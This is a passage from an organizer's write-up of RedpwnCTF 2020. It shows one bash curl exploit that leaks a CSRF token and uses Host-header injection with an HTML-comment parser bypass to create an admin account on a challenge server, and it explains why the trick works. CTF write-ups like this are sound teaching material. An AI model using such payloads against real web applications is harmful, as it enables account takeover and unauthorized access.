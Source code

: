 ```bash
csrftoken=$(curl -v http://2020.redpwnc.tf:31291/analytics\?ip_address\=__csrftoken__admin_account | cut -d  ' '  -f 7 | tr -d  '\n' | base64 | tr -d  '='); curl -v -H 'Host: 2020.redpwnc.tf:31291\admin\create?viperId=e624d407-d230-4e55-bb04-2e1c24e7cf28&amp;<!--=4&csrfToken='"${csrftoken}"'#-->' -H 'Cookie: connect.sid=s%3AMHc1IM90PLjzqv4WM6DeRW0-UmEKD3Qr.125KdxxAlXzTT4XLia%2BCUQdPe2rIThSoIKdAW1s%2FGRY' http://2020.redpwnc.tf:31291/viper/1bc603db-4385-4baa-b333-8785ca4856e0
```
This was really cool because they chose to abuse the fact that the analytics.js, which I intended only to be make the challenge more realistic and make the CSRF token bypass possible, made a fetch request. This actually works well because the ip is appended to the end of the URL and that can be made it not parsed by making it a page anchor through `#`. However, the problem arose because by default, the browser would convert `&` to `&amp` which would disable the exploit. The bypass for this is actually really interesting and it is because within  `<!-- -->` HTML comments, the parser is laxed and will not encode `&` automatically and thus the attack works because the `<!--` becomes apart of the keypair `amp;<!--=4` which would make this attack work which capitalizes on the built in fetch request.

#### Conclusion

Overall, I thought being an organizer of RedpwnCTF was a great experience. From working on the platform to building challenges that I hoped people would learn from was really rewarding. I am really amazed by what was accomplished for this event even though to many people it was just a 1-week competition. I hope that all people who competed had a great time and I would just like to applaud all the organizers for the work they put in and the great outcome that was a result of all the time and effort.
